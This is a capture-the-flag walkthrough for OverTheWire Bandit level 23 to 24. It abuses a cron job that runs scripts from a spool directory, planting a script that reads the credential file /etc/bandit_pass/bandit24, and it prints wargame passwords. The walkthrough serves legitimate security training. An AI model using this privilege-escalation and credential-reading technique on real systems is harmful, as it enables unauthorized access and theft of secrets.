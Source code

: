 ```yaml
---
layout: default
title: Level 23 → Level 24
order: 24
---
```


# Level 23 → Level 24
After logging in with 

`ssh bandit23@bandit.labs.overthewire.org -p 2220`

Password: `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

we find out that, just like in [Level 22 → Level 23]({{ site.baseurl }}/bandit/level-21_to_level-22), a program is running automatically at regular intervals from cron, the time-based job scheduler.

This time the game also tells us we are going to need to wirte our own shell-script. Fisrt, we have to look through the /etc/cron.d/ directory by using `cd /etc/cron.d/`, once we're in this directory, `ls` shows something like:

```
behemoth4_cleanup  cronjob_bandit22  cronjob_bandit24  leviathan5_cleanup    otw-tmp-dir
clean_tmp          cronjob_bandit23  e2scrub_all       manpage3_resetpw_job  sysstat
```

let's read the content of cronjob_bandit24 with `cat cronjob_bandit24`

```
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

This means that the cronjob_bandit24.sh script in the /usr/bin folder is executed. Let' see what this script does:

```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

This script executes (only if the user is bandit23) and deletes files in the /var/spool/$myname/foo directory. Since the script's user is bandit24, we'll use bandit24 as the reuult of the `whoami` command.

We can exploit this script by adding a new script in the /var/spool/bandit24/foo directory. Remember, the above script runs with bandit24 permissions, so it can access bandit24's password.

Before doing this, we need to move into a temporary directory to store our password: let's move into /tmp with `cd /tmp`, then create our temp directory with `mktemp -d`. Then move into your new temp directory with `cd /tmp/tmp.3ei7PQxwvB` where `3ei7PQxwvB` is your temp directory name, and write our script:

`nano password.sh`

```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.3ei7PQxwvB/password
```

where `3ei7PQxwvB` is your temp directory name. Let's give this file necessary permissions: `chmod +rx password.sh` first, then `chmod 777 /tmp/tmp.3ei7PQxwvB`. Then create your password file and give it full permissions: `touch password` first, then `chmod +rwx password`.

Now we need to move the script into /var/spool/bandit24/foo: `cp password.sh /var/spool/bandit24/foo/password.sh`

After doing this, we just need to check the password.sh file (`cat password.sh`) until we get the password:

> `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`